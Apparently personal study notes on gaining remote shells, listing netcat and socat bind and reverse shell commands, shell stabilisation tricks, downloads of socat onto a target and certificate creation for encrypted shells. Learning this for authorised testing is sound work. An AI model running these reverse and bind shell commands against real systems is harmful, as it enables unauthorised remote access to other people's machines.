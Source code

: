 Bind shell.
- target listen.
- Bind shells. start a listener attached to a shell directly on the target.may be prevented by firewalls protecting the target.
- target: ``` nc -lvnp <port> -e "cmd.exe" ```
- attacker: ``` nc <TARGET_IP> <port> ```

**interactive or non-interactive**
- interactive: allow you to interact with programs after executing them.
- Non-Interactive: 

**Netcat**
- ``` nc -lvnp <port-number> ``` start listener of reverse shell
- ``` nc <target-ip> <chosen-port> ``` obtain bind shell

**Netcat Shell Stabilisation**
Technique 1: Python
- ``` python -c 'import pty;pty.spawn("/bin/bash")' ``` spawn a better featured bash shell
- ``` export TERM=xterm ``` able to use commands like ``` clear ```
- ``` stty raw -echo; fg ``` 
- ![image](https://user-images.githubusercontent.com/91292763/148204472-f50d32d6-1821-404e-8da6-beaede32a2d4.png)

Technique 2: rlwrap
- gives us access to history, tab autocompletion and the arrow keys
- ``` sudo apt install rlwrap ``` 
- ``` rlwrap nc -lvnp <port> ``` start listener
- ``` stty raw -echo; fg ```

Technique 3: Socat
- socat static compiled binary (a version of the program compiled to have no dependencies)
- ``` sudo python3 -m http.server 80 ```
- ``` wget <LOCAL-IP>/socat -O /tmp/socat ```
- ``` Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe ```

change your terminal tty size:
- ``` stty -a ```
- ``` stty rows <number> ```
- ``` stty cols <number> ```

**Socat**
Reverse Shells
- ``` socat TCP-L:<port> - ``` linux or windows
- ``` socat TCP:<LOCAL-IP>:<LOCAL-PORT> ``` ``` EXEC:powershell.exe,pipes ``` Windows
- ``` socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li" ``` Linux

Bind Shells
- ``` socat TCP-L:<PORT> EXEC:"bash -li" ``` Linux
- ``` socat TCP-L:<PORT> EXEC:powershell.exe,pipes ``` Windows
- ``` socat TCP:<TARGET-IP>:<TARGET-PORT> - ``` linux or windows

- ``` socat TCP-L:<port> FILE:`tty`,raw,echo=0 ``` listener
- ``` socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane ```

**Socat Encrypted Shells**
- ``` openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt ``` Generate a certificate. creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. 
- ``` cat shell.key shell.crt > shell.pem ``` merge two into a single file
